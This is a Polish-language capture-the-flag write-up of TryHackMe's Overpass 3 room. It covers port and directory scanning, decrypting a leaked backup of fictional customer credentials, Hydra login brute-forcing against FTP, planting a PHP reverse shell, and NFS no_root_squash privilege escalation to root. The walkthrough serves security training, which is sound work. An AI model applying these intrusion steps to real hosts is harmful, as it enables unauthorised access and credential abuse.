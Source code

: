 ```yaml
---
title: Overpass 3 - Hosting
author: piotr
date: 2024-02-20 15:00:00 +0800
categories: [rozwiązanie]
tags: [ctf, thm]
---
```


Rozwiązanie pokoju [Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting) z platformy [tryhackme.com](https://tryhackme.com/).

# Podstawowe skanowanie:

## nmap scan

```
└─$ nmap  10.10.201.73
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-18 09:15 EST
Nmap scan report for 10.10.201.73
Host is up (0.048s latency).
Not shown: 986 filtered tcp ports (no-response), 11 filtered tcp ports (host-unreach)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.57 seconds

```

## gobuster scan

```
└─$ gobuster dir -u 10.10.201.73 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.201.73
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 218]
/.hta                 (Status: 403) [Size: 213]
/.htpasswd            (Status: 403) [Size: 218]
/backups              (Status: 301) [Size: 236] [--> http://10.10.201.73/backups/]
/cgi-bin/             (Status: 403) [Size: 217]
/index.html           (Status: 200) [Size: 1770]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

Skan narzędziem NMAP wskazał działajace serwisy na serwerze - fpt, ssh i serwer http na którym postawiona jest statyczna strona. W jej kodzie źródłowym nie ma nic specjalnie interesującego, nie licząc tego komentarza:
`<!-- 0.99999% is 5 nines, right? -->`, na tę chwilę nie wiem co on może znaczyć. Skan narzędziem gobuster wskazał dostępne katalogi, interesujący jest `/backups`, na tej stronie udostępnione jest archiwum `backup.zip`:

![backups](/assets/img/overpass3/01.png)

Po pobraniu i rozpakowaniu tego archiwum widać, że w środku znajduje się klucz prywatny i zaszyfrowany dokument:

![archive](/assets/img/overpass3/02.png)

Prawdopodobnie dokument został zaszyfrowany gpg, mamy klucz publiczny więc można go odszyfrować:

```
gpg --import priv.key
gpg --output customer.xlsx --decrypt CustomerDetails.xlsx.gpg
```

po odszyfrowaniu otworzyłem plik, jego zawartość:

```
| Customer Name   | Username       | Password          | Credit card number  | CVC |
| --------------- | -------------- | ----------------- | ------------------- | --- |
| Par. A. Doxx    | paradox        | ShibesAreGreat123 | 4111 1111 4555 1142 | 432 |
| 0day Montgomery | 0day           | OllieIsTheBestDog | 5555 3412 4444 1115 | 642 |
| Muir Land       | muirlandoracle | A11D0gsAreAw3s0me | 5103 2219 1119 9245 | 737 |
```

mamy więc listę użytkowników i ich haseł, warto spróbować czy któraś z kombinacji zadziała z ssh lub ftp, przygotowałem sobie listę użytkowników i haseł:

- użytkownicy:

```
paradox
0day
muirlandoracle
```

- hasła:

```
ShibesAreGreat123
OllieIsTheBestDog
A11D0gsAreAw3s0me
```

i stworzyłem odpowiednie pliki, następnie poleceniem:

```
hydra -L usernames -P pass ftp://10.10.195.39
```

sprawdziłem czy któraś para zadziała dla ftp:

![hydra](/assets/img/overpass3/03.png)

okazało się, że tak. Dla ssh nie znaleziono nic. Po połączeniu się przez ftp nie znalazłem nic ciekawego:

![ftp](/assets/img/overpass3/04.png)

jednak co warto zauważyć wcześniej pobierane dane były z folderu backup, więc z przeglądarki jest dostęp do tego folderu - co znaczy, że jeśli wrzucimy tam jakiś php reverse shell i ustawimy nc, wejdziemy na stronę to otrzymamy połączenie. I połączenie zostało nawiązane:

![nc](/assets/img/overpass3/05.png)

po połączeniu zadbałem o jakiś użyteczny shell:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

a następnie poszukałem flagi:

```
bash-4.4$ find / 2>/dev/null | grep flag
find / 2>/dev/null | grep flag
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/vif-0/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/usr/bin/pflags
/usr/sbin/grub2-set-bootflag
/usr/share/man/man1/grub2-set-bootflag.1.gz
/usr/share/httpd/web.flag
bash-4.4$
```

flaga znajduje się w ostatnim pliku na liście. Zapoznając się z systemem zauważyłem możliwość stworzenia nowych kluczy ssh i zalogowanie się przez ssh - będzie przyjemniej pracować. Po połączeniu się przez ssh aby przyspieszyć pracę wykorzystałem [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh). Analizując wyniki natknąłem się na:
![enum](/assets/img/overpass3/06.png)
dzięki temu możliwe jest podmontowanie tego folderu na maszynie atakującej, należy tylko skorzystać z tunelowania przez ssh:
![ss](/assets/img/overpass3/07.png)
![nmap](/assets/img/overpass3/08.png)

```
ssh paradox@10.10.127.57 -i ssh_key -L 2049:localhost:2049
```

i w drugiej karcie:

```
sudo mount -t nfs localhost:/ remote
```

po zajrzeniu do podmontowanego zasobu można znaleźć flagę. Interesujący jest również folder `.ssh`, wewnątrz niego znalazłem klucze ssh, skopiowałem go i zalogowałem się do maszyny. Następnie szukałem dalej jakiegoś błędu, natknąłem się na [tę stronę](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe). Po wykonaniu tych kroków mogłem odczytać ostatnią flagę. Podczas tego wystąpił pewien problem - moja binarka nie zadziałała. Pomyślałem, że najłatwiej będzie użyć tej która znajduje się na atakowanej maszynie. Korzystając z połączenia ssh/ftp skopiowałem plik `/bin/bash` do folderu domowego, a następnie z drugiej karty jako użytkownik root ponownie skopiowałem ten plik do innej lokalizacji. Usunąłem oryginalny plik i do tej lokalizacji skopiowałem wcześniej skopiowany plik po czym nadałem mu odpowiednie uprawnienia. Dzięki temu na zdalnej maszynie osiągnąłem uprawnienia root.

